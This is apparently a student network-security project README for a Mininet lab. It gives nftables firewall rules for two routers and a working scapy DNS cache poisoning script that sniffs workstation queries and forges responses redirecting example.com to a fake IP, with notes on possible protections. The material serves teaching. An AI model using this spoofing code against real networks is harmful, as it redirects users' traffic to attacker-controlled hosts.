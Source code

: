 # LINFO2347 – Project Network Attacks

## Authors
Deroeux Elric (noma:)
Lévêque Quentin (noma:)

## Basic enterprise network protection
For the basic entreprise network protection we tried to keep our NFT super simplified.

- No statement have been made for routers behavior, we allow them to send/receive ping/connection.
- Routers forward behavior is "default drop" as it is a good practice

### r1 NFTable:
```
#!/usr/sbin/nft -f

flush ruleset

table inet filter { 
    chain input {
        type filter hook input priority 0; policy accept;
    }
    chain forward {
        type filter hook forward priority 0; policy drop;
        
        ct state established,related accept
        
        iif r1-eth0 oif r1-eth12 accept
    }
    chain output {
        type filter hook output priority 0; policy accept;
    }
}
```
- r1 could be ip-oriented `iif r1-eth0 ip saddr 10.1.0.0/24 accept` or shorter `iif r1-eth0 accept`.
- r1 accept response to new/old connections
- DMZ servers can ping each other has the case has been discuted in teams. Otherwise additionnal firewall would have been needed for each DMZ server.

### r2 NFTable: 
```
#!/usr/sbin/nft -f 

flush ruleset

table inet filter { 
    chain input {
        type filter hook input priority 0; policy accept;
    }
    chain forward {
        type filter hook forward priority 0; policy drop;
        
        ct state established,related accept	
        
        iif r2-eth12 oif r2-eth0 ip saddr 10.1.0.0/24 accept
        
        iif r2-eth0 oif r2-eth12 accept
    }
    chain input {
        type filter hook output priority 0; policy accept;
    }
}
```
- r2 need to allow packets from workstations IPs only.
- Everything from internet can come in because of r1 drop policy that will block packet not destinated to DMZ.
### Application of rules:
We modified the topo.py to apply our basic NFTables to r1 and r2.
```python
...
def apply_nftables_rules(net: Mininet) -> None:
    info("Applying nftables rules on r1...\n")
    info(net['r1'].cmd("nft -f ~/LINFO2347/r1.nft"))
    
    info("Applying nftables rules on r2...\n")
    info(net['r2'].cmd("nft -f ~/LINFO2347/r2.nft"))
...
```
We call this function after the `add_routes` function.


## DNS Cache Poisoning

### Attack
This script manage `r1` to intercept DNS requests from the workstations (`ws2` and `ws3`) and spoof the DNS response. By doing so, it aim to poison the DNS cache with a forged IP address (`1.2.3.4`) configurable, redirecting future requests for that domain (`example.com`) to a malicious server.
We use `example.com` due to the configuration of the DNS server that associate `example.com` to the IP adress `192.0.2.192` as it's specified in the dnsmasq config `address=/example.com/192.0.2.192`

#### Config
```
TARGET_DOMAIN = b"example.com."
FAKE_IP = "1.2.3.4"
DNS_PORT = 5353
```
#### Sniffing
`r1` start sniffing all the DNS packet that go through `r1-eth0` and start to anaylze them.
```python
from scapy.all import *
...
print(f"Listening for DNS queries on port {DNS_PORT}...")
sniff(filter=f"udp port {DNS_PORT}", iface="r1-eth0", prn=spoof_dns, store=0)
```
#### Filtering
It drop the packet that are not query and that are not asking about the domain `example.com`
```python
    ...
    if pkt.haslayer(DNS) and pkt.getlayer(DNS).qr == 0:
        qname = pkt[DNSQR].qname
    else:
        return
        
    if qname != TARGET_DOMAIN:
        return
        
    print(f"{qname.decode()} found, spoofing DNS response ...")
    ...
```
#### Spoofing
It use informations of intercepted packet to build a credible response. 
It invert source and destination IPs and ports, it use the same ID request and use the fake ip adress.
Then it send the spoofed packet that should come before the DNS response.
```python
...
    ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
    udp = UDP(dport=pkt[UDP].sport, sport=DNS_PORT)
    dns = DNS(
        id=pkt[DNS].id,
        qr=1,
        aa=1,
        qd=pkt[DNS].qd,
        an=DNSRR(rrname=qname, ttl= 300,rdata=FAKE_IP)
    )
    spoofed_pkt = ip / udp / dns
    send(spoofed_pkt, verbose=0)
    print(f"Spoofed packet sent with ip {FAKE_IP}")
...
```
#### Perform the attack
On `r1` execute the script `python3 ~/LINFO2347/attacks/dns_cache_poisoning.py`
Then on `ws2`OR/AND `ws3` perform a DNS query to the DNS server asking for example.com `dig @10.12.0.20 -p 5353 example.com +short`
#### Result
Based on the DNS response of the `dig` command
Either `192.0.2.192` if the attack missed or `1.2.3.4` if it worked

Note : We are aware that the DNS cache poisoning could have been performed on the DNS instead on the Workstation, that would have impacted all the network and be more persistant. 
The step would have been similar but the sniff would have to be on r2 to intercept our DNS server request.

### Protection
Since the attack is timed, `related/established` rule wont work. 
Neither for `ip saddr 10.12.0.20` or `sport 5353` due to the spoofing.
Default drop on `r1` output doesn't seems to work due to spoofing.

Allowing dnssec in the `/etc/dnsmasq.conf` could protect.

In a normal environement it would be very hard to assemble right timing, right ID and right port as it could be randomise too.
In one of these condition not proprelly done we could block the attack using an nftable.

(Or surely is it possible but we didnt found the way to do it).
